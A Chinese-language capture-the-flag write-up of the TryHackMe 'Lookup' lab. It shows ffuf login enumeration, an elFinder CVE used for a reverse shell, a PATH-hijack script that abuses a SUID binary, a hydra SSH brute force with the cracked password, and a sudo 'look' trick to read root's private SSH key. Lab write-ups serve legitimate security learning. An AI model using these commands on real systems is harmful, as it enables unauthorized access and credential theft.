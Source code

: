 ```yaml
---
layout: post
title:  "TryHackMe Challenge Writeup: Lookup"
date:   25 June 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
今天來解TryHackMe上的Challenge: [Lookup](https://tryhackme.com/room/lookup) 

以下是我的解題思路和歷程，紀錄自己嘗試了哪些手段以及學習了哪些新的攻擊手法和切入角度
  
### Step 1. Nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:aa:9c:e1:dd:bb:cf:45:9b:fe:3e:2e:ef:9f:be:52 (RSA)
|   256 98:df:c7:bb:25:0a:26:fd:56:f5:30:ca:49:52:f0:15 (ECDSA)
|_  256 5c:2d:64:cf:b7:8c:d6:a9:37:e5:36:46:ee:5b:85:90 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 一樣，22我們不關心，直接來看80

### Step 2. port80: website
- 瀏覽器手動打開IP:80，發現一個登錄界面
- 在尋找的過程中先用 gobuster 來找可能的路徑 => 沒找到
- 用whatweb找一下網站框架版本 => 沒什麼特別的

```bash
└─$ whatweb http://10.10.181.141         
http://10.10.181.141 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.181.141], RedirectLocation[http://lookup.thm]
http://lookup.thm [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.181.141], PasswordField[password], Title[Login Page]
```

- 然後用burp suite先觀察一下它的登錄請求 => 發現用戶名和密碼是明碼傳送，可做字典檔攻擊(先不測試)
  
```yaml
POST /login.php HTTP/1.1
Host: lookup.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://lookup.thm
Connection: keep-alive
Referer: http://lookup.thm/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=john&password=password
```

### Step 3. Subdomain/Vhost
- 把目標放大一點，根據題目提示好像是有隱藏的subdomain可以挖掘
- 嘗試 ffuf subdomain enumeration: `ffuf -u http://10.10.181.141/ -H "Host: FUZZ.lookup.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc 200`
- 嘗試 gobuster vhost enumeration: `gobuster vhost -u "http://10.10.181.141" --domain lookup.thm --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50`
- 暫時都沒有結果

### Step 4. 回去ffuf
- 思路是用ffuf測試出有效的用戶名，然後進一步fuzz出密碼
- `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"`
- 首先先觀察錯誤的用戶名的response長度: word=10
- 添加filters: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 10`
- 找到用戶名 **admin** 時response長度不同(word=8)，可能為有效的用戶名: 

```bash
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 415ms]
```  
  
- 再測試有效密碼: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 8`
- 找到一個密碼 **password123**
- 但是當我嘗試輸入admin/password123時卻還是顯示用戶名或密碼不對
- 嘗試看看還有沒有其他用戶，但這次用別的字典檔: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 10`
- 找到另一個用戶 **jose**
- 嘗試登入後會把我們導向到 **files.lookpu.thm**；一樣，手動添加到 /etc/hosts

### Step 5. files.lookup.thm
- 首先先檢查看得到的文件有沒有有價值的東西，發現一個 credentials.txt 文件內容為: `think: nopassword`，先記下來
- 分別嘗試了用這組帳密登入 lookup.thm 和 ssh，都不行
- 那麼查查看elFinder有沒有已知漏洞，並且在網站中有一個很小的問號，點開可以查看版本號 (2.1.47)
- 直接查到 [CVE-2019-9194](https://www.exploit-db.com/exploits/46481)
![lookup-1](/assets/img/post-img/challenge-lookup-1.png)
- 直接成功，嘗試reverse shell，可以用這個 [reverse shell generator](https://www.revshells.com/)
![lookup-2](/assets/img/post-img/challenge-lookup-2.png)
- 一樣，先看/home下有什麼用戶，找到 think下有.ssh，但目前來說我們用戶是www-data，沒辦法讀取這組ssh

### Step 6. 嘗試提權到think
- linpeas 先跑
- `cat /etc/passwd`:

```bash
think:x:1000:1000:,,,:/home/think:/bin/bash
ssm-user:x:1001:1001::/home/ssm-user:/bin/sh
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```

- 到/home下找到三個用戶: think/ssm-user/ubuntu，三個都有.ssh但目前都沒有權限
- linpeas有找到一個可疑的binary: `/usr/sbin/pwm`

```bash
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```

- 簡單執行一下看到好像是通過執行id後拿取用戶名來查詢 `/home/{username}/.password`
- 那我們創造一個優先度更高的id command讓這個程序優先執行並返回我們創造的結果。下面首先創造一個名為id的bash file，然後放在/tmp目錄下，同時添加路徑/tmp到環境變數中並且優先度最前，這樣在運行id時就會優先抓/tmp下的id:

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
```

- 之後執行 `/usr/sbin/pwm` 會dump出 `/home/think/.password`。然後將這份字典檔傳到自己攻擊主機後用 hydra 爆破用戶think密碼

```bash
└─$ hydra -l think -P password_list 10.10.181.141 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 01:11:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.181.141:22/
[22][ssh] host: 10.10.181.141   login: think   password: josemario.AKA(think)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-25 01:11:57
```

- 找到密碼後登入用戶think，成功獲得user flag

### Step 7. 提權到root
- sudo -l 查找有哪些sudo權限執行程序

```bash
[sudo] password for think: 
Matching Defaults entries for think on ip-10-10-181-141:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-181-141:
    (ALL) /usr/bin/look
```

- 上GTFOBins查look如果有sudo權限可不可以做提權，發現可以

```bash
think@ip-10-10-181-141:~$ LFILE=/root/.ssh/id_rsa
think@ip-10-10-181-141:~$ sudo look '' "$LFILE"
```

- 依照GTFOBins上面的步驟，將path_to_file改為/root/.ssh/id_rsa(因為前面發現三個用戶都有.ssh/，可以直接猜測root也有)獲得root金鑰
- 成功登入為root，獲得root權限

### 自我總結
個人覺得的難點:
- 根據response長度分析合法用戶名和密碼有哪些
- admin/password123一直嘗試但是都不行，其實要讓ffuf把更多結果跑出來
- reverse /usr/sbin/pwm 來完整分析到底怎麼使用 id 指令的
- 使用自己建造的bash來替代默認執行的程序並替換環境變數
- 剩下的root提權其實就單純想太多，應該直接嘗試 `sudo -l`

## 學習資料
1. [TryHackMe Challenge: Lookup](https://tryhackme.com/room/lookup) 
2. [Lookup Writeup](https://0xb0b.gitbook.io/writeups/tryhackme/2024/lookup)

</div>
</body>
</html>
